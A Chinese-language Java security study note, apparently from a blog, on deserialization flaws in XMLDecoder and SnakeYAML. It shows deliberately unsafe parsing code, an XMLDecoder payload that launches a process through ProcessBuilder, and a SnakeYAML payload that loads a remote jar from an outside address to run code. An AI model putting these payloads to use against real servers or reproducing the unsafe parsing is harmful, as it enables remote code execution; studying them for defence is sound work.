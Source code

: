 #### XMLDecoder
也是一样的,只不过是换成了xmldecode.readObject
```java
// XMLDecoder在JDK 1.4~JDK 11中都存在反序列化漏洞安全风险。攻击者可以通过此漏洞远程执行恶意代码来入侵服务器。在项目中应禁止使用XMLDecoder方式解析XML内容

String path = "src/main/resources/payload/calc-1.xml";
File file = new File(path);
FileInputStream fis = null;
try {
    fis = new FileInputStream(file);
} catch (Exception e) {
    e.printStackTrace();
}

BufferedInputStream bis = new BufferedInputStream(fis);
XMLDecoder xmlDecoder = new XMLDecoder(bis);
xmlDecoder.readObject();
xmlDecoder.close();
```
传输的数据是xml格式
```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_151" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>cmd</string>
            </void>
            <void index="1">
                <string>/c</string>
            </void>
            <void index="2">
                <string>calc</string>
            </void>
        </array>
        <void method="start" />
    </object>
</java>

```
![](https://img.l1uyun.one/javasec-反序列化_image_2.png)
#### SnakeYaml
SnakeYAML 反序列化,
SnakeYAML 在反序列化时可以指定 class 类型和构造方法的参数,
结合 JDK 自带的 javax.script.ScriptEngineManager 类，可实现加载远程 jar 包，完成任意代码执行.
```java
// 远程服务器支持用户可以输入yaml格式的内容并且进行数据解析，没有做沙箱，黑名单之类的防控

public void yaml(String content) {
    Yaml y = new Yaml();
    y.load(content);
}
```
只不过传输的数据不是object格式了,而是yaml格式
使用了[yaml-payload](https://github.com/artsploit/yaml-payload)这个工具,编译得到一个payload.jar,放在wsl里面,并且开一个web服务器.
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://192.168.10.7:8000/yaml-payload.jar"]
  ]]
]
```